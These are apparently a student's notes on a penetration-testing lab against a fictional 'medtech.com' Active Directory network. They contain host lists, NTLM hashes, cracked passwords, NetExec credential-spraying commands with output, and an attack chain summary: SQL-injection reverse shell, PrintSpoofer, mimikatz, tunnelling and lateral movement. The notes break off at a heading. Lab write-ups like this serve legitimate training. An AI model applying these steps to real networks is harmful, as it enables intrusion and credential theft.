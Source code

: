 Recently formed IoT healthcare startup.

## Objectives
- Find as many vulnerabilities and misconfigs as possible
- Increase their Active Directory security posture
- Reduce the attack surface

# Hosts
## External
192.168.x.120    proof.txt
192.168.x.121 : WEB02     ~~proof.txt~~
192.168.x.122    local.txt, proof.txt

## Internal
172.16.x.10 : DC            proof.txt
172.16.x.11 : FILES02    ~~local.txt~~, ~~proof.txt~~
172.16.x.12 : DEV04     local.txt, proof.txt
172.16.x.13 : PROD01   proof.txt
172.16.x.14 :    local.txt
172.16.x.82: CLIENT01     proof.txt
172.16.x.83 : CLIENT02    local.txt, proof.txt

# Users & PWs
- joe
	- NTLM - 08d7a47a6f9f66b97b1bae4178747494
		- Flowers1
	- NTLM - 464f388c3fe52a0fa0a6c8926d62059c
- leon - domain admin
- mario
- wario
	- NTLM - b82706aff8acf56b6c325a6c2d8c338a
- peach
- yoshi
	- NTLM - cd21be418f01f5591ac8df1fdeaa54b6
- offsec
- administrator:
	- NTLM - b2c03054c306ac8fc5f9d188710b0168
	- NTLM - f1014ac49bae005ee3ece5f47547d185
	- NTLM - a7c5480e8c1ef0ffec54e99275e6e0f7


```bash
nxc smb 172.16.127.0/24 -u joe -p Flowers1 -d medtech.com
	SMB         172.16.127.13   445    PROD01           [+] medtech.com\joe:Flowers1 
	SMB         172.16.127.10   445    DC01             [+] medtech.com\joe:Flowers1 
	SMB         172.16.127.12   445    DEV04            [+] medtech.com\joe:Flowers1 
	SMB         172.16.127.11   445    FILES02          [+] medtech.com\joe:Flowers1 (Pwn3d!)
	SMB         172.16.127.82   445    CLIENT01         [+] medtech.com\joe:Flowers1 
	SMB         172.16.127.254  445    WEB02            [+] medtech.com\joe:Flowers1 
	SMB         172.16.127.83   445    CLIENT02         [+] medtech.com\joe:Flowers1


nxc ldap 172.16.192.0/24 -d medtech.com -u users.txt -p Mushroom!    
	... 
	LDAP        172.16.192.10   389    DC01             [+] medtech.com\wario:Mushroom!


nxc rdp 172.16.192.0/24 -d medtech.com -u users.txt -p Mushroom!
	RDP         172.16.192.12   3389   DEV04            [+] medtech.com\wario:Mushroom! 
	RDP         172.16.192.12   3389   DEV04            [+] medtech.com\yoshi:Mushroom! (Pwn3d!)
	...
	RDP         172.16.192.82   3389   CLIENT01         [+] medtech.com\wario:Mushroom! 
	...
	RDP         172.16.192.82   3389   CLIENT01         [+] medtech.com\yoshi:Mushroom! (Pwn3d!)

```



# Methodology

## 121
- Reverse shell from blind SQLi IIS Server on 192.168.x.121
- `whoami /priv` shows SeImpersonate
- `net users /domain` shows users
	- Administrator
	- joe
	- leon
	- mario
	- offsec
	- peach
	- wario
	- yoshi
- `net groups "Domain Admins" /domain` shows leon is domain admin
- `ipconfig` shows it's connected to internal network
- privesc w/ `PrintSpoofer`
- no local - proof.txt is on Admin's Desktop
- mimikatz shows creds:  `joe:Flowers1`
- Tunnel w/ `lingolo`
- Laterally move
	- `nxc smb 172.16.127.0/24 -u joe -p Flowers1 -d medtech.com`
		- `SMB         172.16.127.11   445    FILES02          [+] medtech.com\joe:Flowers1 (Pwn3d!)`

## 11